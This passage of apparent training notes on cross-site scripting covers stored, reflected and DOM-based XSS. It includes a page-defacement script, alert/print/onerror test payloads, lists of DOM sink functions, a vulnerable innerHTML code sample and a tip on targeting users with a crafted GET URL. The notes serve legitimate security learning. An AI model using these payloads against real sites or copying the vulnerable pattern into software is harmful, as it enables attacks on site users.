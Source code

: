 ```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```

To verify the payload is stored on the back-end, refresh the page. If the alert comes back, it's stored/persistent

## Reflected XSS
Reflected - Gets Processed by the back-end server
DOM-based - Completely Processed on the client-side
Neither are persistent through a page refresh

### Reflected
Look for user input to be displayed as part of an error messages

Test Payloads

```html
<script>alert(window.origin)</script> # This will pop up a window showing the source URL for the popup window(iframes)
<script>print()</script> # Will pop up the printer dialog
<plaintext> # Should render the rest of the page as plain text.
```
Payloads will **NOT** be rendered by the browser on execution

**Targeting**
Target users by sending them a GET-Request URL containing our payload

### DOM-Based
Completely Processed on the client side (JS used to change page source through the Document Object Model(DOM)
No HTTP requests made (Developer Toos/Network Tab)
Check the URL for the parameters
Page source does not change when refreshed (Parameter passed in the URL rather than added to the page source)
**Source**=JS object that takes user input (Can be any input parameter like a url parameter or an input field)
**Sink**=JS function that writes user input to a DOM object on the page. 

Common JS Functions that write to DOM objects:
```javascript
document.write()
DOM.innerHTML
DOM.outerHTML
```Common jQuery library functions that write to DOM objects
```javascript
add()
after()
append()
```

Example:
```javascript
var pos = document.URL.indexOf("task=");#task paramter in URL
var task = document.URL.substring(pos + 5, document.URL.length);
```
```javascript
document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);#innerHTML used to write to the screen (task)
```
Test Payloads
```html
<img src="" onerror=alert(window.origin)>
```
